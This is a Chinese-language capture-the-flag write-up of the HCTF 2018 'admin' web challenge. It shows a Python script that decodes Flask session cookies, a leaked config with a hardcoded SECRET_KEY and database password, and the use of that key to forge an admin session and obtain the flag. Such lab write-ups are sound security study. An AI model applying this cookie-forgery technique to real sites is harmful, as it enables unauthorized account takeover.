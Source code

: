 # admin

[题目地址](https://buuoj.cn/challenges#[HCTF%202018]admin)

没flask拿不了flag，心想着[wp](https://www.anquanke.com/post/id/164086)看都看了写篇笔记吧。

进来有两个页面，login和register。随便注册一个用户，检查源代码时发现提示。

```html
<h1 class="nav">Hello a</h1>


<!-- you are not admin -->
<h1 class="nav">Welcome to hctf</h1>
```

那就是要登录成admin？试了一下sql，没有。在打web题时不要放过任何一个页面，所以改密码的地方也要看看。发现意外收获。

```html
<div class="ui grid">
    <div class="four wide column"></div>
    <div class="eight wide column">
        <!-- https://github.com/woadsl1234/hctf_flask/ -->
      <form class="ui form segment" method="post" enctype="multipart/form-data">
        <div class="field required">
          <label>NewPassword</label>
          <input id="newpassword" name="newpassword" required type="password" value="">
        </div>
        <input type="submit" class="ui button fluid" value="更换密码">
      </form>
    </div>
  </div> 
```

是网站的源代码库。看下代码，没什么直接问题，因为这题的关键根本就不在代码上。在cookie中可以发现session，用脚本解码。

```python
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode

def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)

    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of '
                         'an exception')

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before '
                             'decoding the payload')

    return session_json_serializer.loads(payload)

if __name__ == '__main__':
    print(decryption(sys.argv[1].encode()))
```

得到seesion内容。继续查看网站模板，发现登录成admin确实是我们的目标，能看见flag。

```html
{% include('header.html') %}
{% if current_user.is_authenticated %}
<h1 class="nav">Hello {{ session['name'] }}</h1>
{% endif %}
{% if current_user.is_authenticated and session['name'] == 'admin' %}
<h1 class="nav">hctf{xxxxxxxxx}</h1>
{% endif %}
<!-- you are not admin -->
<h1 class="nav">Welcome to hctf</h1>

{% include('footer.html') %}
```

利用seesion什么的绕登录验证也很常见，我们可不可以把自己的sessino改成admin登陆？当然可以，借用大佬的[仓库](https://github.com/noraj/flask-session-cookie-manager)编辑session。编辑时发现需要SECRET_KEY，源代码给了。

```python
import os

class Config(object):
    SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'
    SQLALCHEMY_DATABASE_URI = 'mysql+pymysql://root:adsl1234@db:3306/test'
    SQLALCHEMY_TRACK_MODIFICATIONS = True
```

用python3生成session后赋值即成为管理员，拿到flag。关于session还有另一篇很好的[文章](https://www.leavesongs.com/PENETRATION/client-session-security.html)。